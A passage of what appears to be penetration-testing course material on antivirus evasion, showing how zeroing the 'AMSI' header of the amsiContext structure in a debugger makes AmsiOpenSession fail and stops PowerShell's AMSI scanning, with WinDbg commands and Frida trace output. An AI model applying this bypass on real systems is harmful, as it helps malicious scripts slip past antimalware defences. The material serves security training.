 > Listing 27 - Function prototype for AmsiOpenSession

HRESULT values are documented and can be referenced on MSDN where we find that the numerical value 0x80070057 corresponds to the message text _E\_INVALIDARG_.[2](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_314-2) The message text, while not especially verbose, indicates that an argument, which we would assume to be _amsiContext_, is invalid.

In short, this error occurs if the context structure has been corrupted. If the first four bytes of _amsiContext_ do not match the header values, _AmsiOpenSession_ will return an error. What we don't know is what effect that error will cause. In a situation like this, there are typically two ways forward.

The first is to trace the call to _AmsiOpenSession_ that returns this error and try to figure out where that leads. This could become very time-consuming and complex. The second, and much simpler, approach is to force a failed _AmsiOpenSession_ call, let the execution continue, and observe what happens in our Frida trace. Let's try this approach first.

In order to force an error, we'll place a breakpoint on _AmsiOpenSession_ and trigger it by entering a PowerShell command. Once the breakpoint has been triggered, we'll use ed to modify the first four bytes of the context structure, and let execution continue:

```
0:014> bp amsi!AmsiOpenSession

0:014> g
Breakpoint 0 hit
amsi!AmsiOpenSession:
00007fff`c75c24c0 e943dcdb0b      jmp     00007fff`d3380108

0:006> dc rcx L1
000001f8`62fa6f40  49534d41                             AMSI

0:006> ed rcx 0

0:006> dc rcx L1
000001f8`62fa6f40  00000000                             ....

0:006> g
```

> Listing 28 - Modifying the context structure header

After overwriting the AMSI header value, we'll continue execution, which generates exceptions:

```
30024801 ms  [*] AmsiOpenSession()
30024801 ms  |- amsiContext: 0x1f862fa6f40
30024801 ms  |- amsiSession: 0x7fff37328268

30024803 ms  [*] AmsiOpenSession() Exit
30024803 ms  |- HRESULT value is: 0x80070057
```

> Listing 29 - No additional AMSI APIs are called after corrupting the header
